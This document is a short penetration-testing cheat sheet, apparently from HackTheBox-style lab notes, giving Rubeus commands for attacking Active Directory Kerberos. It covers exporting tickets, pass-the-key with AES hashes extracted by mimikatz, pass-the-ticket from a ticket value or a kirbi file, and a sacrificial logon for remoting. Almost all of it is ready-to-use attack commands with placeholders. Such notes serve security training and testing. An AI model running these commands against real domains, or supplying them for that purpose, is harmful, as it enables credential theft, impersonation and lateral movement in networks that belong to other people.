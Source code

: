 # Rubeus - AD

## rubeus - export tickets
```
Rubeus.exe dump /nowrap
```

## rubeus - PtK
```
# Using the hash extracted from mimikatz sekurlsa:ekeys
# No need for admin rights
Rubeus.exe  asktgt /domain:<DOMAIN> /user:<USERNAME> /aes256:<KEY/HASH> /nowrap
```

## rubeus - PtT from ticket value
```
# submit the ticket (TGT or TGS) to the current logon session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<TICKET> /ptt
```

## rubeus - PtT from kirbi file
```
# submit the ticket (TGT or TGS) to the current logon session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbgt-blah.blah.kirbi

# OR convert the file as b64 and pass it by value
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-blah.blah.kirbi"))
Rubeus.exe ptt /ticket:<TICKETVALUE>
```

## rubeus - Powershell remoting with PtT
```
# Creates a sacrificial login
# equivalent of 'runas /netonly' => no erasure of existing TGT in the current logon session
# Create a new window, use this session from now
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<Ticket> /ptt
```
